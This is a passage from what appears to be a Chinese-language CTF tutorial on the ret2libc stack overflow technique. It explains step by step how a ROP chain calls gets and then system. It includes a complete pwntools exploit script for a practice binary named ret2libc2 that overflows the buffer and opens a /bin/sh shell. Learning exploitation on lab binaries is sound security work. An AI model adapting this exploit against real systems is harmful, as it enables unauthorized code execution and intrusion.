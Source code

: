

![image-20231111172704232](images/ret2libc.assets/image-20231111172704232.png)

1. mian函数执行完毕后，esp在gets函数地址，所以ret跳转到gets函数地址
2. 跳转到gets函数后，esp在pop ebp ret地址，第一个参数为      esp+1 也就是字符串地址
3. gets执行完毕后，esp在pop ebp ret地址，ret跳转到pop ebp ret
4. 跳转到pop ebp ret后，esp在字符串存放地址
5. 如果没有pop ebp，就进行ret跳转则会跳转到字符串存放地址
6. 执行pop ebp后，esp在system函数地址，此时在执行ret就可以进入system函数了
7. 进入system函数后，esp为 返回地址无要求，参数为 esp + 1 字符串存放地址
8. 从字符串存放地址读取/bin/sh，在执行system函数后，就获得shel权限了



## 构造payload

```python
#!/usr/bin/env python
from pwn import *

sh = process('./ret2libc2')


gets_addr = p32(0x08048460)

system_addr = p32(0x08048490)

string_addr = p32(0x0804a00c)

payload = b"A" * 112 + gets_addr + p32(0x0804872f) + string_addr + system_addr + p32(0x00) + string_addr

sh.sendline(payload)


sh.sendline("/bin/sh")

sh.interactive()
```



# ret2lib3

由于该程序使用的是动态链接，所以直接使用IDA已经找不到system函数了，也找不到"/bin/sh"字符串。

